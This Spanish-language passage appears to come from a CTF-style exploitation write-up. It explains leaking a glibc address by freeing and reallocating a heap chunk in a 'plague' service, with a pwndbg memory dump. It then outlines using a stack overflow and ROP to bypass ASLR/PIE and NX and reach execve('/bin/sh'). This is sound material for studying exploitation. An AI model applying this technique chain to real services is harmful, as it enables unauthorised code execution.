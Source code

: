 ```
fd: es un puntero que apunta al siguiente bloque libre en la lista enlazada
bk: es un puntero que apunta al bloque libre anterior en la lista enlazada. 
```
Entonces sabiendo eso mi idea es usar este funcionamiento para leakear una dirección absoluta de `GLibc`, para eso
hago lo siguiente:

- Seteo el header *Plague-Target* para evitar la consolidación con el "top arena"
- Libero el bloque (*plague_content*) con *handle_plague*

Entonces el bloque libre va a tener los punteros fd y bk en los primeros 16 bytes del tamaño usable del bloque

- Luego mediante otra conexión solicito el mismo bloque y sobreescribo fd para leer el puntero bk en `[ 3 ]`

```
Allocated chunk | PREV_INUSE
Addr: 0x5555555596a0                               <------ plague_content
Size: 0x811

Allocated chunk | PREV_INUSE
Addr: 0x555555559eb0                               <------ plague_target
Size: 0x51

Top chunk | PREV_INUSE
Addr: 0x555555559f00
Size: 0x20101

pwndbg> x/30gx 0x5555555596a0
0x5555555596a0: 0x0000000000000000      0x0000000000000811
0x5555555596b0: 0x0a41414141410a0d      0x00007ffff7fbabe0
0x5555555596c0: 0x0000000000000000      0x0000000000000000
0x5555555596d0: 0x0000000000000000      0x0000000000000000
0x5555555596e0: 0x0000000000000000      0x0000000000000000
0x5555555596f0: 0x0000000000000000      0x0000000000000000
0x555555559700: 0x0000000000000000      0x0000000000000000
0x555555559710: 0x0000000000000000      0x0000000000000000
0x555555559720: 0x0000000000000000      0x0000000000000000
0x555555559730: 0x0000000000000000      0x0000000000000000
0x555555559740: 0x0000000000000000      0x0000000000000000
0x555555559750: 0x0000000000000000      0x0000000000000000
0x555555559760: 0x0000000000000000      0x0000000000000000
0x555555559770: 0x0000000000000000      0x0000000000000000
0x555555559780: 0x0000000000000000      0x0000000000000000
pwndbg>
```

Teniendo un leak de libc puedo abusar del Stack Buffer Overflow, utilizarlo para bypassear el ASLR (PIE) y
conseguir gadgets que me permitan bypassear el NX.

Ya en este punto es simplemente ROPear para llamar a `execve("/bin/sh", 0, 0)`

